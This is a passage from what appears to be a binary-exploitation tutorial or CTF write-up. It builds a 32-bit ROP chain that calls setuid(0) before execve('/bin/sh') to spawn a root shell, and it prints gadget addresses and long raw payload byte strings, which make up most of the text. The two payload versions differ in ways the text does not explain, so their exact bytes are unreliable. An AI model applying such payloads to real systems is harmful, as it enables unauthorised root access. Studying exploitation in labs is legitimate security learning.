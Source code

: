 # Setting uid
Let's set our `uid` to `0` which is `root`. This is even simpler than the previous ROP. Looking at the docs ones again (https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86-32_bit), the registers should look like this:

```
eax = 0x17 (setuid)
ebx = 0 (root uid)
```

We can use the same gadgets from before. To set eax, we use the same trick of `xor` and `add`, this luckily works since we can get a `7` at the end by adding `0x24` to something that ends in `b` (`0x5b`) repeatedly. I've already done the math for you, and we need to add `0x24` 55 times to `0x5b` in order to get it to wrap around to `0x17`. So let's perform the rop once again, we need to:

jump to `0xf7ffc8cc` which is that `xor eax, 0x5b`. 0xf7ffd5d3. Again irrelevant pops in the gadgets, let's pop junk to them. And then... 55 times return to `add al, 0x24`! Let's see the payload - remember that we have to do it BEFORE calling `execve`. So I will be inserting it right before everything we did to call `execve`, that means 32 bytes from the starts of the payload. It's getting pretty long now, but don't get intimidated, it's just those 55 returns. I've split the payload for convenience, we'll be chaining it back together at the end:

```
/bin/sh\x00AAAABBBB\x4c\xde\xff\xff\x00\x00\x00\x00AAAABBBB\xcc\xc8\xff\xf7AAAABBBBCCCC\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7

execve part:

\xcc\xc8\xff\xf7AAAABBBBCCCC\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xcd\xd5\xff\xf7\x4c\xde\xff\xffAAAABBBB\x7a\xc5\xff\xf7\x00\x00\x00\x00\x5c\xde\xff\xff\x10\x90\x04\x08
```

Next we want to set `ebx`. Let's once again use the same gadget from before. We're popping `0` to `ebx`, and junk for the other 2 pops. And finally, we'll want call `int 0x80`, like before:

```
/bin/sh\x00AAAABBBB\x4c\xde\xff\xff\x00\x00\x00\x00AAAABBBB\xcc\xc8\xff\xf7AAAABBBBCCCC\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xcd\xd5\xff\xf7\x00\x00\x00\x00AAAABBBB\x10\x90\x04\x08

execve part:

\xcc\xc8\xff\xf7AAAABBBBCCCC\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xcd\xd5\xff\xf7\x4c\xde\xff\xffAAAABBBB\x7a\xc5\xff\xf7\x00\x00\x00\x00\x5c\xde\xff\xff\x10\x90\x04\x08
```
